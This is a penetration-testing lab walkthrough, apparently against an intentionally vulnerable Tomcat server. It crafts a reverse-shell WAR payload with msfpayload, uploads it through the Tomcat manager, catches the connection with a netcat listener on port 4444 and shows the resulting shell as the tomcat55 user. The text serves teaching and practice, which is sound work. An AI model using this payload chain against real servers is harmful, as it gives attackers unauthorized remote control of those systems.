 Now we have a meterpreter shell! Over and on to Meterpreter.
Uploading Java Executable Manually

For some reason, the metasploit automated payload deployment had some problems. However, we can still exploit this server manually.

The management web interface gives us a place to upload WAR files, and a way to execute them manually.

### Tomcat upload.png

We can use Metasploit to craft a WAR file with the payload, then manually upload and execute it.
### Craft WAR Payload

http://securitypadawan.blogspot.com/2011/11/attacking-metasploitable-tomcat-this-is.html

```
msfpayload linux/x86/shell_reverse_tcp LHOST=10.0.0.25 LPORT=4444 W > runme.war
```
Now we upload the runme.war file, and set it running on the Tomcat server:
```
Tomcat runme upload.png
```
Note that this does NOT execute the payload yet!!!

To execute the payload and run the actual war file, we will need to visit the page http://10.0.0.27:8180/runme/. However, this will try and connect to our command-and-control server on port 4444, and we need to be listening for the incoming connection.

We'll use netcat to receive the incoming shell once the WAR file is executed.
Netcat Listener

Now we set netcat listening on port 4444, the port we hard-coded into our payload:
```
nc -v -l -p 4444
```
Now, netcat will listen for the incoming connection, so you're ready to execute your payload.

Once the runme.war module is enabled through the Tomcat server, visit the applet in your browser:
```
http://10.0.0.27:8180/runme/
```
You'll see the incoming TCP connection in netcat.
```
root@morpheus:~# nc -v -l -p 4444
listening on [any] 4444 ...

10.0.0.27: inverse host lookup failed: Unknown host
connect to [10.0.0.25] from (UNKNOWN) [10.0.0.27] 35148
```
### Houston, We Have a Shell

Congrats - we've got ourselves a shell!

The shell is nothing fancy, but it lets us do some things on the filesystem.

We are the tomcat 5.5 user:
```
id
uid=110(tomcat55) gid=65534(nogroup) groups=65534(nogroup)
```
Here I list the contents of the root directory:
```
cd /
ls
bin
boot

```